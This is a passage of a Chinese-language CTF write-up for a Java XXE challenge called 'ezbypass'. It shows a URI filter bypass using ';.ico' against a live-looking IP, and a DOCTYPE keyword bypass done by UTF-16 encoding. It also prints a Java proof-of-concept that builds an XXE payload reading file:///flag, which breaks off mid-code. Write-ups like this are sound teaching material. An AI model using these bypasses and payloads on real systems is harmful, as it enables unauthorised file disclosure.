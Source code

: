 ```php

imagepng($img,'./1.png');
?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131105857.png)

![image-20221213110650081](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131106205.png)

## ezbypass

DemoController

![image-20221213180730847](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131807941.png)

MyFilter

![image-20221213180751127](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131807318.png)

UserProvider

![image-20221213180854574](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131808670.png)

UserMapper

![image-20221213180911864](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131809952.png)

考点是 java xxe, 过滤了 `!DOCTYPE` 关键词, 并且有 filter 验证 uri 是否以 `.ico` 结尾

uri 绕过的参考文章如下

[http://cn-sec.com/archives/246159.html](http://cn-sec.com/archives/246159.html)

```
http://94.74.86.95:8899/index;.ico
```

关键词的绕过其实也很简单, 将 xml 转成 utf-16be utf-16le 都行

不过当时做这题的时候自己在这步掉坑里了, 用了 StringReader 来包装 poc, 而不是 ByteArrayInputStream 这种原始的 stream, 导致 xml 解析一直失败...

```java
package com.example;

import org.w3c.dom.Document;
import org.w3c.dom.NodeList;
import org.xml.sax.InputSource;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import java.lang.reflect.Constructor;
import java.util.Base64;

public class xxe {
    public static void main(String[] args) throws Exception{
        String poc = "<?xml version=\"1.0\"?>\n" +
                "<!DOCTYPE test [\n" +
                "<!ENTITY file SYSTEM \"file:///flag\">]>\n" +
                "<test>\n" +
                "&file;\n" +
                "</test>";
        byte[] bytepoc = poc.getBytes("UTF-16BE");
        String b64poc = Base64.getEncoder().encodeToString(bytepoc);
//        xxe(b64poc, "string", new String[]{"java.io.StringReader", "java.lang.String", "org.xml.sax.InputSource", "java.io.Reader"});
```
